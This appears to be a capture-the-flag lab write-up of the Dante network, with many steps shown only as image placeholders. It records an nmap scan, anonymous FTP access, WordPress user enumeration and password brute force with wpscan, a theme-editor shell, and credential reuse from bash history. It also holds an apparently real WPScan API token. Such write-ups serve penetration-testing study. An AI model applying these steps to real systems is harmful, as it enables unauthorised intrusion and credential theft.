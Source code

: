 ```
 nmap -sCV -T4 -Pn 10.10.110.100
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-05 17:06 PST
Nmap scan report for 10.10.110.100
Host is up (0.078s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.21
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 172.16.1.100 is not the same as 10.10.110.100
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 8f:a2:ff:cf:4e:3e:aa:2b:c2:6f:f4:5a:2a:d9:e9:da (RSA)
|   256 07:83:8e:b6:f7:e6:72:e9:65:db:42:fd:ed:d6:93:ee (ECDSA)
|_  256 13:45:c5:ca:db:a6:b4:ae:9c:09:7d:21:cd:9d:74:f4 (ED25519)
65000/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/wordpress DANTE{Y0u_Cant_G3t_at_m3_br0!}
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.94 seconds

```


# FTP
```
ftp 10.10.110.100
```

Login as anoymous and navigate to Transfer - Incoming and download todo.txt

![[Pasted image 20231205171400.png]]

## todo.txt

![[Pasted image 20231205171422.png]]Potential user: james

## Robots.txt

![[Pasted image 20231206155637.png]]
## WPscan
```
wpscan --url http://10.10.110.100:65000/wordpress --enumerate vp
```

No plug-ins were found

```
wpscan --url http://10.10.110.100:65000/wordpress --api-token 51vO4v72sy7CxiqSaaIMsSH6V6SHKlPNmrmg7vcydB8 -e at,ap --p
lugins-detection mixed -t 64
```

![[Pasted image 20231206160307.png]]

Navigating to meet the team gives use maybe a few users

admin
james
kevin
balthazar
aj
nathan

```
wpscan --url http://10.10.110.100:65000/wordpress -U user.txt -P passwords.txt
```

```
[!] Valid Combinations Found:
 | Username: james, Password: Toyota
```

![[Pasted image 20231206162140.png]]

Navigate to Theme Editor

![[Pasted image 20231206162341.png]]

We can change Twenty Nineteen 

![[Pasted image 20231206163128.png]]

Start your listener and catch the shell

![[Pasted image 20231206164723.png]]

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## User James Enumeration

![[Pasted image 20231206164951.png]]

Bash history is not set to dev/null

![[Pasted image 20231206165035.png]]

```
james@DANTE-WEB-NIX01:~$ mysql -u balthazar -p TheJoker12345!
mysql -u balthazar -p TheJoker12345!
Enter password: TheJoker12345!
```

![[Pasted image 20231206165651.png]]

Seraching Balthazars permissions

![[Pasted image 20231206165629.png]]

## Escalate to root

![[Pasted image 20231206170204.png]]

Copy over the id_rsa key

![[Pasted image 20231206170224.png]]
